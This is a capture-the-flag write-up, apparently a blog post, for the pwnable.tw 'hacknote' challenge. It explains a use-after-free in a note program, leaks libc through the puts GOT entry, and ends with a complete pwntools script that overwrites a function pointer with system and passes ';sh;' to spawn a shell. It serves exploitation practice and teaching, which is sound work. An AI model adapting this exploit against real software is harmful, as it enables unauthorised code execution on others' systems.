


+++
title = "pwnable.tw - hacknote"
date = 2020-01-12T19:40:43.176Z
updated = 2020-12-27
aliases = ["/posts/5d07ecbb508cb0091260f639-pwnabletw-hacknote"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'heap-exploitation', 'use-after-free', 'pwntools']
categories = ["ctf-writeups"]
+++

# Challenge
> A good Hacker should always take good notes!
>
> `nc chall.pwnable.tw 10102`


We are also provided a binary and the libc used on the server.


# Solution

When running the binary, we can see four options:



## Understanding the binary

When reversing the binary, we can use the shown options to help identify functions used. I reversed the binary in Ghidra, 
and the following are the cleaned up decompilation output from the binary.

<!-- more -->

```c
void add_note(void)
{
  int iVar1;
  void *_note;
  size_t size;
  void *contents;
  int in_GS_OFFSET;
  int i;
  char note_size [8];
  note *note;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  if (counter < 6) {
    i = 0;
    while (i < 5) {
      if ((&notes_list)[i] == (note *)0x0) {
        _note = malloc(8);
        (&notes_list)[i] = _note;
        if ((&notes_list)[i] == (note *)0x0) {
          puts("Alloca Error");
                    /* WARNING: Subroutine does not return */
          exit(-1);
        }
        (&notes_list)[i]->print_func = (void *)0x804862b;
        printf("Note size :");
        read(0,note_size,8);
        size = atoi(note_size);
        note = (&notes_list)[i];
        contents = malloc(size);
        note->contents = contents;
        if ((&notes_list)[i]->contents == (char *)0x0) {
          puts("Alloca Error");
                    /* WARNING: Subroutine does not return */
          exit(-1);
        }
        printf("Content :");
        read(0,(&notes_list)[i]->contents,size);
        puts("Success !");
        counter = counter + 1;
        break;
      }
      i = i + 1;
    }
  }
  else {
    puts("Full");
  }
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

In the `add_note` function, we can see that there is a list of notes, called `notes_list`, and a maximum number of notes allowed. After 6 notes, are created, no more can be created. The `note` struct contains a pointer to a function at `0x804862b` and a pointer to `malloc`ed memory containing the provided contents. There are no obvious heap overflows.

```c
void print_func(char **param_1)

{
  puts(param_1[1]);
  return;
}
```
This is the function at `0x804862b`. It simply prints the contents of the note.

```c
void delete_note(void)
{
  int iVar1;
  int index;
  int in_GS_OFFSET;
  char index_str [4];
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  printf("Index :");
  read(0,index_str,4);
  index = atoi(index_str);
  if ((index < 0) || (counter <= index)) {
    puts("Out of bound!");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  if ((&notes_list)[index] != (note *)0x0) {
    free((&notes_list)[index]->contents);
    free((&notes_list)[index]);
    puts("Success");
  }
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
The `delete_note`function has an obvious oversight. It doesn't remove the deleted note from the `notes_list` array. It simply frees the memory that was allocated. 


```c
void print_note(void)
{
  int index;
  int _canary;
  char index_str [4];
  int canary;
  
  canary = *(int *)(_canary + 0x14);
  printf("Index :");
  read(0,index_str,4);
  index = atoi(index_str);
  if ((index < 0) || (counter <= index)) {
    puts("Out of bound!");
                    /* WARNING: Subroutine does not return */
    _exit(0);
  }
  if ((&notes_list)[index] != (note *)0x0) {
    (*(code *)(&notes_list)[index]->print_func)((&notes_list)[index]);
  }
  if (canary != *(int *)(_canary + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
The `print_note` function calls the function that was stored within the `note` struct with a pointer to the struct itself.

&nbsp;

The goal is clear. If we overwrite `note->print_func` with a pointer to `system` and call `print_note` on that index, 
we can get a shell. To do this, we need to leak a libc address. 

## Leaking a libc address
To leak a libc address, we can simply print the contents of a global-offset-table (GOT) entry. The GOT contains pointers 
to dynamically-linked libraries, and is populated by the linker at runtime. The GOT entry for `puts` would point to the address of `puts` within libc. 

&nbsp;


To accomplish this, we can abuse the use-after-free to overwrite a freed `note` struct. The goal is to make a `note` 
struct look like the following:
```c
note->print_func = *0x804862b;  // Address of the default print_func used by the binary
note->contents = *0x804a024;    // Address of GOT entry for puts
```

`malloc` returns the first available memory region, and generally reuses previously `free`ed regions. However, it has 
bins of specific sizes that generally are not moved. To demonstrate this, I made a small [test program](https://repl.it/repls/PaltryTrustyBrace):

{{ replit(id="PaltryTrustyBrace") }}

The `note` struct malloc 8 bytes for the struct, and n bytes for the contents. If we allocate 2 notes with 8 bytes of 
contents each, and then free them, we can gain a pointer to the `note` struct. 
```c
// New note with 8 bytes content (Note A)
malloc(8);  // = 0x00 Note A struct
malloc(8);  // = 0x10 Note A contents
// New note with 8 bytes content (Note B)
malloc(8);  // = 0x20 Note B struct
malloc(8);  // = 0x30 Note B contents
// Delete note A
free(0x00);
free(0x10);
// Delete note B
free(0x20);
free(0x30);
// New note with 32 bytes contents (Note C)
malloc(8);  // = 0x00 Note C struct  <-> Note A struct
malloc(32); // = 0xA0 - This will be in a different bin from the smaller allocations
// New note with 8 bytes contents (Note D)
malloc(8);  // = 0x10 Note D struct   <- Note A contents
malloc(8);  // = 0x20 Note D contents -> Note B struct
```

Note D's contents will overwrite Note B's struct. Now we can simply set the contents of Note D to the needed values, and 
the print out index 1 to leak the libc address of `puts`. To find the libc base address, we can subtract the address of 
puts in the libc binary from the leaked address. Now we can find the address of any libc function. 

```python
LIBC_BASE = LEAKED_ADDR - L_ADDR_PUTS
ADDR_SYSTEM = LIBC_BASE + L_ADDR_SYSTEM
```

## Crafting a shell
To spawn a shell, we need a `note`'s struct to look like the following:
```c
note->print_func = *system;     // Address of system calculated from the leaked base address
note->contents = ";sh;";        // String to call /bin/sh
```

Since `print_note` calls `note->print_func` with a pointer to the note itself, this will call `system('\x90\xd0\xab\xff;sh;\xff')`. 
The address of system itself will be provided as an argument. To still get a shell, we can surround `sh` with semi-colons 
to make them appear as separate commands to the shell. 

&nbsp;

We can reuse the setup we used to leak libc. If we just free the last note created (Note D), then we can create another 
note that will also overwrite Note B's struct:
```c
//...
// New note with 8 bytes contents (Note D)
malloc(8);  // = 0x10 Note D struct   <- Note A contents
malloc(8);  // = 0x20 Note D contents -> Note B struct
// Delete Note D
free(0x10);
free(0x20);
// New note with 8 bytes contents (Note E)
malloc(8);  // = 0x10 Note E struct <-> Note D struct   <-> Note A contents
malloc(8);  // = 0x20 Note E struct <-> Note D contents <-> Note B struct
```

Now, if we print the note at index 1, we will get a shell.

## Script
```python
from pwn import *

context.terminal = '/bin/sh'

r = remote('chall.pwnable.tw', 10102)
libc = ELF('./libc_32.so.6')
elf = ELF('./hacknote')

L_ADDR_SYSTEM = libc.symbols['system']
L_ADDR_PUTS = libc.symbols['puts']

ADDR_PUTS_GOT = elf.got['puts']
ADDR_PRINT_FUNC = 0x804862b


def add_note(size, contents):
    log.info('Adding note: [size]: %d  [contents]: %s' % (size, contents))
    r.write('1\n')
    r.recvuntil('Note size :')
    r.write(str(size))
    r.recvuntil('Content :')
    r.write(contents)
    r.recvuntil('Success !\n')
    skip_menu()


def delete_note(index):
    r.write('2')
    r.recvuntil('Index :')
    r.write(str(index))
    r.recvuntil('Success')
    skip_menu()


def skip_menu():
    r.recvuntil('----------------------')
    r.recvuntil('----------------------')
    r.recvuntil('----------------------\n')


# Leak libc
add_note(8, 'a' * 2)
add_note(8, 'a' * 2)

delete_note(1)
delete_note(0)

add_note(32, 'A' * 10)

# This overwrites the note struct
add_note(8, p32(ADDR_PRINT_FUNC) + p32(ADDR_PUTS_GOT))

r.write('3')
r.recvuntil('Index :')
r.write('1\n')

LEAKED_ADDR = u32(r.recv(4))

LIBC_BASE = LEAKED_ADDR - L_ADDR_PUTS
ADDR_SYSTEM = LIBC_BASE + L_ADDR_SYSTEM
ADDR_BINSH = LIBC_BASE + libc.search("/bin/sh").next()

log.info("Leaked address of puts [%s]" % (hex(LEAKED_ADDR)))
log.info("Found libc base [%s]" % (hex(LIBC_BASE)))
log.info("Found address of system [%s]" % (hex(ADDR_SYSTEM)))
log.info("Found address of '/bin/sh' [%s]" % (hex(ADDR_BINSH)))

delete_note(3)

#Create shell

log.info('Attempting to create shell')
add_note(8, p32(ADDR_SYSTEM) + ';sh;')

r.write('3')
r.recvuntil('Index :')
r.write('1')

r.interactive()
```


